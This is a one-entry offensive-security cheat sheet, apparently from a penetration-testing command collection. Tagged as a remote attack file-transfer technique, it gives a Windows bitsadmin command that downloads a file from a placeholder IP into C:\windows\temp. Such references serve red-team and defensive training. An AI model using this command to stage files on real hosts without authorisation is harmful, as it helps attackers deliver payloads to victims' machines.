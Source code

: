# Bitadmins

% windows, certutil

## Download file with bitsadmin
#platform/windows #target/remote #cat/ATTACK/FILE_TRANSFER 
```
bitsadmin /Transfer myJob http://<ip>/<file|file.txt> <path|C:\windows\temp>
```
